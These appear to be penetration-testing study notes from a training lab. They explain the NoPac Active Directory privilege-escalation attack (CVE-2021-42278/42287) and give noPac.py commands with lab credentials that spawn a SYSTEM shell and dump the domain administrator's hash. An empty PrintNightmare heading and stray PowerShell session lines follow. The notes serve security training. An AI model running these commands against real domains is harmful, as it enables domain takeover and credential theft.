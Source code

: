 ```powershell
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```

# **Bleeding Edge Vulnerabilities**

# **NoPac (SamAccountName Spoofing)**

CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), 

**By default, every authenticated user can add up to ten computers to the Domain. The following steps explain how to perform this attack.**

- Create a new account in Active Directory with a random name and then rename it to one of the Domain Controllers without the trailing “$” symbol.
- Request a Kerberos ticket for the created account. Once the ticket is granted, change the name of the account created back to its original name (i.e., the random name chosen in the first step).
- Use the ticket to request an access token from the TGS for a specific service. Because of the absence of an account with that name, the TGS chooses the closest match and appends a “$” symbol. In this way, access to the service is granted with Domain Controller privileges.

another explaination

authenticated users can add up to [ten computers to a domain](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/add-workstations-to-domain). When doing so, we change the name of the new host to match a Domain Controller's SamAccountName. Once done, we must request Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name. When a TGS is requested, it will issue the ticket with the closest matching name. Once done, we will have access as that service and can even be provided with a SYSTEM shell on a Domain Controller. 

Exploit

- Make sure we have impacket installed in our attacking linux
- then install Nopac exploit repo [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)
- `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` → checking if target is vulnerable
- `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` → executing the exploit to get shell.

### **Using noPac to DCSync the Built-in Administrator Account**

- `dollarboysushil@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator`

# **PrintNightmare**


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist